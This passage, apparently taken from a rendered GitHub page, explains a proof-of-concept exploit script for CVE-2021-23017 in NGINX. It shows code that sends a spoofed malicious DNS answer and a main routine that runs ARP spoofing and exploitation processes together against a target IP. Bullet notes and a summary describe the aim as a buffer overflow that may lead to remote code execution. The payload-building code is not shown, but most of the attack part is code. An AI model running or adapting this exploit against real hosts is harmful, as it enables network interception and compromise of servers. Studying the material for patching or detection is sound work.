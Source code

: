 ```python

                    sendp(spoofed_pkt, count=1)
                    print("\n[+] malicious answer was sent")
                    print("[+] exploited\n")
                except:
                    print("\n[-] ERROR")
```

- **DNSQR**: Checks if the packet has a DNS query.
- **dns_request**: Extracts the DNS request from the received packet.
- **payload**: Constructs the malicious DNS response payload.
- **spoofed_pkt**: Creates a spoofed packet with the malicious payload.
- **sendp(spoofed_pkt)**: Sends the spoofed packet.

#### Main Function

```python
def main():
    global target_ip
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", help="IP address of the target")
    parser.add_argument("-r", "--dns_server", help="IP address of the DNS server used by the target")
    args = parser.parse_args()
    target_ip = args.target
    dns_server_ip = args.dns_server
    device_setup()
    processes_list = []
    ARPPProcess = Process(target=ARPP,args=(target_ip,dns_server_ip))
    exploitProcess = Process(target=exploit,args=(target_ip,))
    processes_list.append(ARPPProcess)
    processes_list.append(exploitProcess)
    for process in processes_list:
        process.start()
    for process in processes_list:
        process.join()

if __name__ == '__main__':
    target_ip = ""
    main()
```

- **argparse**: Parses command-line arguments to get the target and DNS server IP addresses.
- **device_setup()**: Configures the device for the attack.
- **Process**: Creates and starts two processes, one for ARP spoofing and one for exploiting the DNS vulnerability.

### Summary

This PoC script performs an ARP spoofing attack to intercept DNS traffic from a target machine and sends a malicious DNS response to exploit CVE-2021-23017 in NGINX. The malicious response is designed to trigger a buffer overflow, potentially allowing remote code execution. The script requires setting up the environment, parsing command-line arguments, and running two concurrent processes for ARP spoofing and DNS exploitation.
